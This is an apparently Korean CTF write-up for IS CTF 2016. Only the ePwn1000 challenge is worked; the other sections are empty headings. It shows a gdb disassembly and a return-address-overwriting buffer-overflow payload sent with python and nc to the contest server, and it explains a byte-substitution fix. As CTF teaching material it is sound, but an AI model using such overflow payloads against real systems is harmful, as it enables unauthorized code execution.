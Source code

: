 # IS CTF 2016 Write-up

team02 응 답없음

* ePwn1000, ePwn1200, ePwn1500, ePwn1700, ePwn1800
* mPwn2000, mPwn2300
* Misc2000, Misc2300, Misc2400, Misc2500, Misc2600, Misc2700, Misc2800, Misc3000
* Web1000, Web2000
* Bon1500, Bon1700, Bon2000, Bon2300, Bon2700

## ePwn1000

````
ied206@TS140  ~/ISCTF
$ wget http://45.63.124.167/files/epwn1000
ied206@TS140  ~/ISCTF
$ chmod +x epwn1000
ied206@TS140  ~/ISCTF
$ python -c 'print "A"*0x20 + "\x48\xd5\xff\xff" + "\x0E\x85\x04\x08"' > payload
ied206@TS140  ~/ISCTF
$ nc 45.32.46.195 10000 < payload
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHֿÿ
ISCTF{Overfffffffflow!!}
````

### 풀이

분석을 위해 epwn1000 바이너리를 IDA로 열어보았다.
컴파일러 stub을 제외한 함수들은 main과 cat_flag 두 개가 존재한다.

main:
![](ePwn1000/main.bmp)

cat_flag:
![](ePwn1000/cat_flag.bmp)

cat_flag 함수가 호출되어야 flag를 볼 수 있으나, cat_flag은 main에서 호출되지 않는다.
하지만 이 바이너리는 stack canary 등이 적용되어 있지 않으므로, scanf를 사용해 BOF 공격을 할 수 있다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	sub    $0x20,%esp
   0x08048524 <+6>:	mov    0x804a040,%eax
   0x08048529 <+11>:	push   $0x0
   0x0804852b <+13>:	push   %eax
   0x0804852c <+14>:	call   0x80483b0 <setbuf@plt>
   0x08048531 <+19>:	add    $0x8,%esp
   0x08048534 <+22>:	mov    0x804a044,%eax
   0x08048539 <+27>:	push   $0x0
   0x0804853b <+29>:	push   %eax
   0x0804853c <+30>:	call   0x80483b0 <setbuf@plt>
   0x08048541 <+35>:	add    $0x8,%esp
   0x08048544 <+38>:	push   $0x804861d
   0x08048549 <+43>:	call   0x80483c0 <printf@plt>
   0x0804854e <+48>:	add    $0x4,%esp
   0x08048551 <+51>:	lea    -0x20(%ebp),%eax
   0x08048554 <+54>:	push   %eax
   0x08048555 <+55>:	push   $0x8048630
   0x0804855a <+60>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804855f <+65>:	add    $0x8,%esp
   0x08048562 <+68>:	lea    -0x20(%ebp),%eax
   0x08048565 <+71>:	push   %eax
   0x08048566 <+72>:	push   $0x8048633
   0x0804856b <+77>:	call   0x80483c0 <printf@plt>
   0x08048570 <+82>:	add    $0x8,%esp
   0x08048573 <+85>:	mov    $0x0,%eax
   0x08048578 <+90>:	leave
   0x08048579 <+91>:	ret
End of assembler dump.
(gdb) disas cat_flag
Dump of assembler code for function cat_flag:
   0x0804850b <+0>:	push   %ebp
   0x0804850c <+1>:	mov    %esp,%ebp
   0x0804850e <+3>:	push   $0x8048600
   0x08048513 <+8>:	call   0x80483d0 <system@plt>
   0x08048518 <+13>:	add    $0x4,%esp
   0x0804851b <+16>:	nop
   0x0804851c <+17>:	leave
   0x0804851d <+18>:	ret
End of assembler dump.
````

이 코드에서 찾을 수 있는 지역변수는 [EBP-0x20] 하나이며, 이는 uint8_t buf[20]; 과 같은 형태를 가지고 있다. IA32의 스택 프레임에 따라, main의 return address는 buf (20B) + exEBP (4B) 다음에 존재한다. return address를 cat_flag 함수의 주소로 바꿔주면 이 함수가 실행되게 할 수 있다.

이론상으로, 다음과 같은 코드로 cat_flag를 실행할 수 있다.

````
$ python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' | ./epwn1000
````

그러나 이 경우, \x0B\x85\x04\x08 부분이 제대로 print되지 않고 있고, SegFault가 나서 실패한다.

````
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    6625 done                python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' |
       6626 segmentation fault  ./epwn1000
````

문제를 해결하기 위해 gdb로 stack을 살펴본 결과, \x0B\x85\x04\x08가 \x00\x85\x04\x08으로 바뀌어 들어가 있었다.

````
gdb) x/32x $esp
0xffffd548:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd558:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd568:	0x41414141	0x00850408	0x00000001	0xffffd604
0xffffd578:	0xffffd60c	0x00000000	0x00000000	0x00000000
0xffffd588:	0xf7fc5000	0xf7ffdc04	0xf7ffd000	0x00000000
0xffffd598:	0xf7fc5000	0xf7fc5000	0x00000000	0x87a82a09
0xffffd5a8:	0xbda92419	0x00000000	0x00000000	0x00000000
0xffffd5b8:	0x00000001	0x08048410	0x00000000	0xf7fedee0
````

cat_flag 내의 call 명령어는 0x0804850E에서 호출된다. 현재 \x0B가 문제를 일으키고 있으므로, 이를 \x0E로 바꾼다.

````
$ python -c 'print "A"*0x24 + "\x0E\x85\x04\x08"' | nc 45.32.46.195 10000
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ISCTF{Overfffffffflow!!}
````

flag를 얻을 수 있다.

## ePwn1200

## ePwn1500

## ePwn1700

## ePwn1800

## mPwn2000

## mPwn2300

## Misc2000

## Misc2300

## Misc2400

## Misc2500

## Misc2600

## Misc2700

## Misc2800

## Misc3000

## Web1000

## Web2000

## Bon1500

## Bon1700

## Bon2000

## Bon2300

## Bon2700
